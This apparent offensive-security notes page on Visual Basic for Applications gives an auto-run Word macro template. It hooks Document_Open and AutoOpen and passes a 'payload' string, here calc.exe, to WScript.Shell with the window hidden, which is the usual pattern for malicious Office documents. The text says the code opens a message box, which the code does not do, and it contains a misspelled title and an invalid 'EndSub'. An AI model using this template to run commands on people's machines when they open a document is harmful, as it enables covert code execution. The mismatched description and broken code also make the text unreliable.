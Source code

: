 # Visuabl Basic Applications
Microsoft programming languages for applications such as Word, Excel, PowerPoint, etc.

A common use for VB is when building macros inside documents.

Create a macro called `TestMacro` and add the following code to open a message box automatically when a document is opened:

```
Sub Document_Open()
    TestMacro
EndSub

Sub AutoOpen()
    TestMacro
EndSub

Sub TestMacro()
    Dim payload as String
    payload = "calc.exe"
    CreateObject("WScript.Shell").Run payload,0
End Sub
```
The document must be saved as a `.doc` or `.docm`
